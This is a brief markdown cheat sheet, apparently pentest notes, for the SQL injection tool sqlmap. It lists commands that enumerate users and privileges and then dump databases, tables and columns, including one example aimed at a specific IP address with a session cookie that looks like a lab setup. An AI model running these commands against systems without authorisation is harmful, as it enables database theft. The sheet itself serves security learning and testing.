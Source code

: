 * intercept request
* right click on it and click `copy to file`

```
sqlmap -r <request_file> -p parameter [options]
```

## More examples

```

 sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie"PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title

# Example extract database banner
sqlmap -u <TARGET> --banner <other options>

# Example list users
sqlmap -u <TARGET> --users <other options>

# Example is dba?
sqlmap -u <TARGET> --is-dba <other options>

# Example available dbs
sqlmap -u <TARGET> --dbs <other options>

# Choose a database
sqlmap -u <TARGET> -D <database> --tables <other options>

# list columns
sqlmap -u <TARGET> -D <database> -T <tables, comma seperated> --columns <other options>

# dump output
sqlmap -u <TARGET> -D <database> -T <table> -C <columns list> --dump <other options>

```

## Forcing the DBMS

```
sqlmap --dbms=<DBMS>
```

A list of DBMS...

* MySQL
* Oracle
* postgreSQL
* Microsoft SQL Server
* Microsoft Access
* SQLite
* Firebird
* Sybase
* SAP MaxDB
* DB2
